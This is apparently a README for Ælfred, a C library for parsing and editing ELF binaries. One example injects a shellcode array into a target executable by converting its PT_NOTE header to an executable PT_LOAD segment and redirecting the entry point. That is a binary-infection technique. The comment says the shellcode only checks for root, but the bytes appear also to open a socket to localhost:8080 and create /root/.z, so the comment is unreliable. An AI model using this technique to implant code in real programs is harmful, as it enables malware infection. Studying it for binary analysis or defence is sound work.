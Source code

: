 # Ælfred

An elf parsing/editing library.

This simply wraps a bunch of elf-oriented tasks I do frequently into library functions.

# Examples

Some examples:

## Open And Prepare An Elf For Parsing/Editing

```c
elf_bin_t* elf = open_elf("./path/to/file");;
```

## Read And Reference Program Headers

```c
elf_bin_t* elf = open_elf("./path/to/file");

print_program_headers(elf);

Elf64_Phdr p = elf->phdr[3];
printf("Value of the 'p_vaddr' field in the 4th program header: %016llx\n", p.p_vaddr);
```

The `print_*` functions included with Ælfred are just examples that are intended to
be used if you don't care or don't need a specific format of the output. They are not 
formatted in a pretty or easily readable way, especially if there are several 
program or sections headers. 

## Edit The Third Program Header

```c
elf_bin_t* elf = open_elf("./path/to/file");

Elf64_Word new_val = 0xffffff;
set_phdr_flags(elf, 3, new_val);

dump_elf(elf);
```

The set functions hold your changes in the elf_bin_t struct's `bin` field. To
write the changes to disk, you must call `dump_elf`. By default, the output file 
is named `elf.out`. This can be changed in the library files.

## Edit A Binary 

In this example, assume your target is a simple "Hello, World!" program and you 
know in advance that the string "Hello, World!" is stored at offset 0x2004 in your 
target.

```c
elf_bin_t* elf = open_elf("./path/to/file");

unsigned long long len = 12;
unsigned char* bytes = calloc(1, len);
memcpy(bytes, "Goodbye, all", len);
update_binary(elf, bytes, len, 0x2004, 0);

dump_elf(elf);
```

The output binary should now print "Goodbye, all!".

## A More Complex Example

The following example demonstrates how quickly you can edit and create an elf with
various changes that still works as expected. In this example, we do a simple
PT_NOTE->PT_LOAD shellcode injection. 

There is some invisible complexity here, in that you must have some knowledge of 
how the technique works to explain why some of the changes are required. A simple 
web search should explain this, but I will try to add some comments to make the 
invisible steps more visible

```c
/*
 * Shellcode that checks if the program is being run as UID 0 
 * and then jumps back to the original entry point. 
 */
unsigned char sc[] = {
  0x49, 0x89, 0xe4, 0x48, 0x31, 0xc0, 0xb8, 0x66, 0x00, 0x00, 0x00, 0x0f,
  0x05, 0x48, 0x83, 0xf8, 0x00, 0x74, 0x05, 0xe9, 0x97, 0x00, 0x00, 0x00,
  0xe8, 0x0e, 0x00, 0x00, 0x00, 0x79, 0x6f, 0x75, 0x20, 0x41, 0x52, 0x45,
  0x20, 0x72, 0x6f, 0x6f, 0x74, 0x0a, 0x00, 0x48, 0x31, 0xc0, 0x48, 0x31,
  0xd2, 0xfe, 0xc0, 0x48, 0x89, 0xc7, 0x5e, 0xb2, 0x0d, 0x0f, 0x05, 0xbf,
  0x02, 0x00, 0x00, 0x00, 0xbe, 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2,
  0xb8, 0x29, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x49, 0x89, 0xc6, 0x4c, 0x89,
  0xf7, 0x48, 0x31, 0xc0, 0x50, 0x41, 0xbd, 0x7f, 0x00, 0x00, 0x01, 0x44,
  0x89, 0x6c, 0x24, 0xfc, 0x66, 0xc7, 0x44, 0x24, 0xfa, 0x1f, 0x90, 0x4d,
  0x31, 0xed, 0x41, 0xb5, 0x02, 0x66, 0x44, 0x89, 0x6c, 0x24, 0xf8, 0x48,
  0x83, 0xec, 0x08, 0x48, 0x89, 0xe6, 0xba, 0x10, 0x00, 0x00, 0x00, 0xb8,
  0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x57, 0x48, 0xbf,
  0x2f, 0x72, 0x6f, 0x6f, 0x74, 0x2f, 0x2e, 0x7a, 0x57, 0x48, 0x89, 0xe7,
  0xbe, 0x42, 0x00, 0x00, 0x00, 0xba, 0xb6, 0x01, 0x00, 0x00, 0xb8, 0x02,
  0x00, 0x00, 0x00, 0x0f, 0x05, 0xeb, 0x29, 0xe8, 0x12, 0x00, 0x00, 0x00,
  0x79, 0x6f, 0x75, 0x20, 0x61, 0x72, 0x65, 0x20, 0x4e, 0x4f, 0x54, 0x20,
  0x72, 0x6f, 0x6f, 0x74, 0x0a, 0x00, 0x48, 0x31, 0xc0, 0x48, 0x31, 0xd2,
  0xfe, 0xc0, 0x48, 0x89, 0xc7, 0x5e, 0xb2, 0x11, 0x0f, 0x05, 0xeb, 0x00,
  0x4c, 0x89, 0xe4, 0x48, 0x31, 0xd2, 0xe8, 0x2d, 0x00, 0x00, 0x00, 0x49,
  0xb9, 0xde, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x49, 0xba, 0x38,
  0x41, 0x00, 0x00, 0x0c, 0x00, 0x00, 0x00, 0x49, 0xbb, 0x60, 0x10, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x4c, 0x29, 0xc8, 0x48, 0x83, 0xe8, 0x05,
  0x4c, 0x29, 0xd0, 0x4c, 0x01, 0xd8, 0xff, 0xe0, 0x48, 0x8b, 0x04, 0x24,
  0xc3
};
unsigned int sc_len = 295;

elf_bin_t* elf = open_elf(target_elf);
int note = 0;
for (int i = 0; i < elf->hdr->e_phnum; i++) {
  if (elf->phdr[i].p_type == PT_NOTE) {        // Find the first NOTE header
    note = i;
    break;
  }
}
note++; // Increment since we don't use offsets in our set functions

set_phdr_type(elf, note, PT_LOAD);     // Change the NOTE to a LOAD header
set_phdr_flags(elf, note, 5);          // Update the permissions (5 == R-X)
set_phdr_offset(elf, note, elf->size); // Set the offset to the end of the elf file
set_phdr_filesz(elf, note, sc_len);    // Set sizes to length of shell code
set_phdr_memsz(elf, note, sc_len);

/*
 * This change is more complex to explain, but, essentially,
 * we need a virtual address that will be out of the way of 
 * everything after we are loaded.
 */
set_phdr_vaddr(elf, note, 0xc00000000 + elf->size);

set_hdr_entry(elf, 0xc00000000 + elf->size); // Change elf entry point to be the LOAD

/*
 * This concatenates the shellcode to the end of the binary. You 
 * could technically write it to any code cave, but this will work.
 * Also, update_binary will edit the elf->size field in this example, 
 * so you must run this last or store the original size if you need it.
 */
update_binary(elf, sc, sc_len, elf->size, 0);

dump_elf(elf); // Write to disk
```

So, effectively -- if you don't count the shellcode, comments, and spacing --
we are able to do a PT_NOTE->PT_LOAD injection in fewer than 20 lines of code.

# Available Methods

```c
/*
 * Utilities
 */
int get_ehdr_type(int type, char*type_str);
int get_phdr_type(int, char*);
int get_phdr_perms(int perms, char* perms_str);
int get_shdr_type(int type, char* type_str);
int find_section(elf_bin_t* elf, unsigned long long offset, int* sec_offset);
elf_bin_t* open_elf(const char* target_elf);
int dump_elf(elf_bin_t* elf);
/*
 * Parsers
 */
static int parse_header(elf_bin_t* elf);
static int parse_program_headers(elf_bin_t* elf);
static int parse_section_headers(elf_bin_t* elf);
static int parse_sections(elf_bin_t* elf);
static int parse_elf(elf_bin_t* elf);
/*
 * Setters
 */
int update_section(elf_bin_t* elf, unsigned char* bytes, unsigned long long len, unsigned int section, unsigned long long offset);
int update_binary(elf_bin_t* elf, unsigned char* bytes, unsigned long long len, unsigned long long offset, int extend);
//hdr
void set_hdr_type(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_machine(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_version(elf_bin_t* elf, Elf64_Word new_val);
void set_hdr_entry(elf_bin_t* elf, Elf64_Addr new_val);
void set_hdr_phoff(elf_bin_t* elf, Elf64_Off new_val);
void set_hdr_shoff(elf_bin_t* elf, Elf64_Off new_val);
void set_hdr_flags(elf_bin_t* elf, Elf64_Word new_val);
void set_hdr_ehsize(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_phentsize(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_phnum(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_shentsize(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_shnum(elf_bin_t* elf, Elf64_Half new_val);
void set_hdr_shstrndx(elf_bin_t* elf, Elf64_Half new_val);
// phdrs
int set_phdr_align(elf_bin_t* elf, unsigned int phdr, Elf64_Xword new_val);
int set_phdr_memsz(elf_bin_t* elf, unsigned int phdr, Elf64_Xword new_val);
int set_phdr_filesz(elf_bin_t* elf, unsigned int phdr, Elf64_Xword new_val);
int set_phdr_paddr(elf_bin_t* elf, unsigned int phdr, Elf64_Addr new_val);
int set_phdr_vaddr(elf_bin_t* elf, unsigned int phdr, Elf64_Addr new_val);
int set_phdr_flags(elf_bin_t* elf, unsigned int phdr, Elf64_Word new_val);
int set_phdr_type(elf_bin_t* elf, unsigned int phdr, Elf64_Word new_val);
int set_phdr_offset(elf_bin_t* elf, unsigned int phdr, Elf64_Off new_val);
//shdrs
int set_shdr_name(elf_bin_t* elf, unsigned int shdr, Elf64_Word new_val);
int set_shdr_type(elf_bin_t* elf, unsigned int shdr, Elf64_Word new_val);
int set_shdr_flags(elf_bin_t* elf, unsigned int shdr, Elf64_Xword new_val);
int set_shdr_addr(elf_bin_t* elf, unsigned int shdr, Elf64_Addr new_val);
int set_shdr_offset(elf_bin_t* elf, unsigned int shdr, Elf64_Off new_val);
int set_shdr_size(elf_bin_t* elf, unsigned int shdr, Elf64_Xword new_val);
int set_shdr_link(elf_bin_t* elf, unsigned int shdr, Elf64_Word new_val);
int set_shdr_info(elf_bin_t* elf, unsigned int shdr, Elf64_Word new_val);
int set_shdr_addralign(elf_bin_t* elf, unsigned int shdr, Elf64_Xword new_val);
int set_shdr_entsize(elf_bin_t* elf, unsigned int shdr, Elf64_Xword new_val);
/*
 * Printers
 */
int print_elf_header(elf_bin_t*);
int print_program_headers(elf_bin_t*);
int print_section_headers(elf_bin_t*);
```
